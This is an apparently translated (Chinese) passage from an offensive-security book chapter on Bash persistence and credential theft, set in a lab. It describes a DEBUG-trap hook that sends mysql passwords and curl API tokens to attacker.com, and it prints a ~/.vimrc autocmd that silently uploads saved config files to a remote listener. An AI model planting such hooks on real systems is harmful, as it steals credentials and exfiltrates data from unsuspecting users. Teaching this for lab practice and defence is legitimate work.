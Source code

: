 第 10-5 节：截取命令和窃取凭证

我们创建一个名为 hook() 的函数，其中使用一个 case 语句 ❶。该语句将尝试将 BASH_COMMAND 变量与两个模式进行匹配：mysql* ❷ 和 curl* ❹。这些模式将匹配任何以这些字符串开头的内容。这应该能够识别使用 mysql 命令连接数据库和使用 curl 命令进行 HTTP 请求的情况。

接下来，如果命令涉及调用 mysql 客户端，我们将检查命令行是否包含密码，使用 -p 或 --password 参数 ❸。在这种情况下，密码将属于数据库。如果找到匹配项，我们将向 *https://attacker.com* 发送一个 HTTP POST 请求，其中包含原始命令的 JSON 负载。

在 ❺ 处，我们使用 curl 进行类似的操作。我们搜索诸如 token、apikey、api_token、bearer 或 authorization 等字符串，以捕获命令行传递的任何 API 密钥。这些凭证可能属于内部 Web 面板或某种管理界面。搜索时不区分大小写（-i）。如果找到这样的模式，我们将发送一个请求，其中包含命令和凭证，到攻击者的网站上，通过 HTTP POST 方法。

最后，我们使用 trap 来使用 DEBUG sigspec 类型 ❻ 捕获 hook() 函数。

> 注意

*你可以从* [`github.com/dolevf/Black-Hat-Bash/blob/master/ch10`](https://github.com/dolevf/Black-Hat-Bash/blob/master/ch10) *下载本章的脚本*。

## 凭证窃取

如果你能够保持对用户凭证数据或甚至用户键盘操作的访问，你可以保持对整个系统的访问。例如，如果用户重置他们的密码，并且我们恰好拦截到执行此操作的命令，即使凭证已经被更改，我们也可以保持访问（至少直到有人发现并停用我们的机制或完全清除受感染的系统）。

我们可以通过多种方式捕获凭证信息。一种方法是通过特洛伊木马化命令，例如用恶意二进制文件替换它们，或者通过向其中注入恶意逻辑来破坏它们的执行流程。在本节中，我们将实现一些常见系统管理员工具中的恶意逻辑。我们还将从 bash 历史文件中提取凭证并通过网络发送这些信息。

### 挂钩文本编辑器

*Vim* 是一种常见的文本编辑器应用程序，通常可以在服务器上找到。它也是许多开发人员和系统管理员首选的文本编辑应用程序，因此值得单独介绍。

> 注意

*如果你从未使用过 Vim，我们强烈建议你熟悉它。它是一个功能强大的编辑器，拥有许多附加功能，例如宏、脚本和插件系统。*

如果你可以访问系统上的一个或多个用户，并且可以修改他们主目录中的配置文件，你可以利用 Vim 的 *autocmd* 功能，这是一个在特定编辑器事件发生时能够执行某些 shell 命令的自动化系统。我们通过使用 *~/.vimrc* 文件来定义 autocmd 操作，Vim 通常会在用户的主目录中搜索该文件。当文本编辑器打开时，它会读取该文件并查找任何特殊的配置和指令。

autocmd 事件可能在文件写入或读取时、文件打开或关闭时，以及编辑器本身打开或关闭时等情况下发生。表 10-1 列出了几个关键的 autocmd 事件。

表 10-1：有趣的 autocmd 事件

| 事件名称 | 描述 |
| --- | --- |
| ShellCmdPost | 执行完 shell 命令后 |
| BufWritePost | 写入整个缓冲区后 |
| BufWipeout | 在删除缓冲区之前 |
| StdinReadPost | 从 stdin 读取到缓冲区后 |

BufWritePost 事件允许我们在编辑器写入缓冲区中的内容后执行某些操作。这意味着如果用户打开了一个文件并进行了写入操作，autocmd 将执行我们的命令。

让我们利用这种行为。首先，将以下内容写入某个用户主目录下的 *~/.vimrc* 文件中。你可以使用实验室中的任何一台被攻破的机器，例如 *p-jumpbox-01*（172.16.10.13），使用备份或 *root* 用户：

```
autocmd BufWritePost *.conf,*.config :silent !timeout 3 curl -m 5 -s
http://172.16.10.1:8080 -o /dev/null --data-binary @<afile> & 
```
